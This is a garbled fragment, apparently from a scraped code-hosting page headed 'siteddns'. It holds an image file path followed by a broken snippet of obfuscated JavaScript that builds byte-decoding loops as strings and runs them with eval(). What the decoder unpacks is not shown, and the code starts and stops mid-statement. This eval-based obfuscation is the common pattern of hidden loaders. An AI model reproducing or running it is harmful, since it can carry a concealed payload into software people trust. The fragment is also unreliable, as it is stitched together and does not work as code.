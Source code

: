  # siteddns
52)break;kc[mc]=(((kc[mc]+250)&0xff)^9)^45;}";eval(mc);mc="mc=2;while(true){if(mc>49)break;kc[mc]=(~kc[mc])&0xff;kc[mc]=(((kc[mc]-192)&0xff)-kc[53])&0xff;mc++;}";eval(mc);lc="";for(mc=1;mc

